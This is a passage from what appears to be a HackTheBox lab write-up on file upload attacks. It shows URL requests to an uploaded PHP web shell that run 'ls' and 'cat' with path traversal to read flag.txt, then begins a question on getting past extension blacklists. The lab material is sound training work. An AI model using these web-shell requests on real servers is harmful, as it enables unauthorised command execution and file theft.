 <div style="text-align: justify">4.  Execute the "ls" command as a URL parameter. The file "flag.txt" is discovered.</div>
```
http://IP:PORT/profile_images/shell.php?cmd=ls ../../../../
```

![image-center](\assets\images\HTB_File_Upload_Attacks\Q3\4.png)
<div style="text-align: justify">5. Read the content of "flag.txt" with the "cat" command as the URL parameter.</div>
```
http://IP:PORT/profile_images/shell.php?cmd=cat ../../../../flag.txt
```
![image-center](\assets\images\HTB_File_Upload_Attacks\Q3\5.png)


## Blacklist Filters

>**Q. Try to find an extension that is not blacklisted and can execute PHP code on the web server, and use it to read "/flag.txt"**

<div style="text-align: justify">1. First of all remove "Client-Side Validation" as in the previous question.</div><br>